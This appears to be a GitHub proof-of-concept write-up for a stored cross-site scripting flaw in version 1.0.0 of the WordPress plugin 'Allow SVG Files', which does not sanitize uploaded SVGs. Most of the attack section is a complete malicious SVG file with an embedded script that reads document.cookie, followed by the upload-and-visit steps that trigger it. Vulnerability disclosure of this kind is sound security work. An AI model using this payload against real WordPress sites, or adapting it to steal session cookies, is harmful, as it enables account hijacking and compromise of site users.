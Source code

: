 # Cross Site Scripting Though SVG Files in "Allow SVG Files" Wordpress Plugin

This PoC describe how to exploit a Cross-Site Scripting (XSS) in - Wordpress "Allow SVG Files" version 1.0.0

# Description

The "Allow SVG Files" v1.0.0, plugin for Wordpress does not sanitize the SVG Files, so it is possible to upload a malicious SVG File to get a XSS.

![1](https://user-images.githubusercontent.com/70114276/166060325-e8294eac-d0b8-452d-b682-f02ded4f7e5b.png)

## Attack Scenario

First we create our SVG file with this content:

![3](https://user-images.githubusercontent.com/70114276/165981536-9ee8b054-0275-4268-83c1-160039432cb2.png)

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400" />
<script type="text/javascript">
alert(document.cookie);
</script>
</svg>
```

Then we upload the file to WordPress

![image](https://user-images.githubusercontent.com/70114276/166068854-1b37bcd9-cd82-42c1-9f40-7d9001817ef5.png)


To validate the PoC, simply access the directory where the file was sent.

![XSS](https://user-images.githubusercontent.com/70114276/166069072-81c9d17f-7f52-428d-9032-98e0f147008a.png)
